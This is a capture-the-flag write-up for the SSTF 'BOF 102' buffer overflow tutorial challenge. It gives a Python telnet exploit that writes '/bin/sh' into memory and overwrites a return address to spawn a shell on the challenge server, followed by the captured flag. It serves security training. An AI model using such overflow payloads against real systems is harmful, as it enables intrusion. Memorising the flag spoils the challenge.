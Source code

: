# BOF 102

This is an advanced course in Buffer Overflow. 

The binary is running at: `nc bof102.sstf.site 1337`. 

Get the shell of the server! 

Download: [BOF102.zip](https://cdn.sstf.site/hpg21/BOF102.zip) 

This is a **tutorial** challenge.
If you are not sure how to solve this,  
please refer to the **tutorial guide ([Eng](https://onedrive.live.com/embed?resid=F7E83213DDD289C7!2251&authkey=!AMhDJ94NiXLWqYs&em=2))**.

## Solution
```python
from telnetlib import Telnet
tn=Telnet("bof102.sstf.site",1337)
tn.read_until(b"Name > ")
tn.write(b"/bin/sh" + b"\n")
payload = b"A" * 20
payload += b"\xe0\x83\x04\x08"
payload += b"C" * 4
payload += b"\x34\xa0\x04\x08"
tn.read_until(b" > ")
tn.write(payload + b"\n")
tn.interact()
```

We get a shell!

## Flag
```bash
$ cat flag
SCTF{B0F_A774ck_w1Th_arg5_1n_x86}
```

